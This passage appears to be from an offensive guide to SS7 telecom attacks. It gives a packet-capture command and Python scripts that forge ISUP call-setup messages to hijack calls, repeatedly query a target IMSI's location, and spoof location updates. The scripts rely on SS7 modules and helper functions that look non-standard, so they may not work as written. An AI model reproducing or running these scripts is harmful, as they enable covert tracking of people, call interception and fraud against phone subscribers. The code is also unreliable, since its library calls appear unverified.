 ### 3.2 Call Hijacking
- **Mechanism**: Manipulate ISUP Initial Address Message (IAM) to hijack calls.

#### Capture Legitimate Call:
```bash
ss7trace -p <port> -f "IAM" -o call_capture.pcap
```

#### Inject Malicious IAM:
```python
from scapy.layers.ss7 import *

malicious_iam = ISUP_IAM(
    cic=<cic>,  # Stolen Circuit Identification Code
    calledPartyNumber="<attacker_number>",
    callingPartyNumber="<spoofed_caller>"
)

# Send the malicious IAM
send_ss7(malicious_iam, iface="<interface>")
```

### 3.3 Location Tracking
- **Exploit**: Abuse Any Time Interrogation (ATI) requests for tracking.

#### Tracking Script:
```python
import time
from scapy.layers.ss7 import *

def track_location(imsi, interval=60):
    while True:
        ati = MAP_AnyTimeInterrogation(imsi=imsi, requestedInfo=["location"])
        response = sr1(ati, iface="<interface>", timeout=5)
        if response:
            print(f"Location Update: {response[MAP_AnyTimeInterrogationRes].get_field('location')}")
        time.sleep(interval)

track_location("<target_imsi>")
```

### 3.4 Location Spoofing
- **Mechanism**: Manipulate the user's reported location using MAP Location Update.

#### POC Script:
```python
from scapy.layers.ss7 import *

def spoof_location(imsi, new_location):
    location_update = MAP_LocationUpdate(
        imsi=imsi,
        newLocation=new_location
    )
    send_ss7(location_update, iface="<interface>")

spoof_location("<target_imsi>", "<new_location>")
```
